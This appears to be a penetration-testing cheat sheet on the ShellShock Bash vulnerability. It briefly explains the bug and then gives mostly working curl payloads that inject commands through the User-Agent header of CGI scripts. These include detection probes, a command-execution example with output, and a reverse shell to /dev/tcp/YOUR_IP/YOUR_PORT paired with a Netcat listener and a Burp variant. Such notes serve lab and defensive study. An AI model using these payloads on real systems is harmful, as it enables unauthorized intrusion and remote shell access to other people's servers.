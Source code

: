 # ShellShock

## ShellShock

Is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables. The vulnerability relies on the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list.

The vulnerability allows us, after not correctly validating the declaration of functions in variables, to execute remote commands on systems through queries in this case by means of web requests. A common foothold can be to list the **/cgi-bin/** directory of a web page. If it exists, we can search for files with the extension **'.cgi'**, although it is not strictly necessary... because it could also be a file with a **'.sh'** extension and the effects would be the same. In case of finding these resources, we can perform tests such as those described below. 

Reflected 

```bash
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://10.10.10.3/cgi-bin/vulnerable | grep vulnerable
```

Blind 

```bash
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://10.10.10.3/cgi-bin/vulnerable
```

Parameters:

* -f: fail silently on HTTP errors. 
* -s: silent mode. 
* -H: pass custom header\(s\) to server.

We can test this with this:

```bash
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://TARGET_IP/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we listen through a port on our computer via Netcat

```bash
nc -lvnp YOUR_PORT
```

Then we make the following request from the terminal to the web service:

```bash
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" "https://192.168.1.X:10000/cgi-bin/filename.cgi"
```

If everything goes well and you are vulnerable to the exploitation of this vulnerability, we must gain access to the system from our listening session. 

Warning: In case /bin/bash does not work, it is recommended to try alternatives, as there are times when the absolute path of the binary is not the one we have specified, so it will require a slight manual enumeration or a simple alternative mode of connection.

Another option is from BurpSuite, we manipulate the User-Agent so that the following content appears:

```http
User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
```

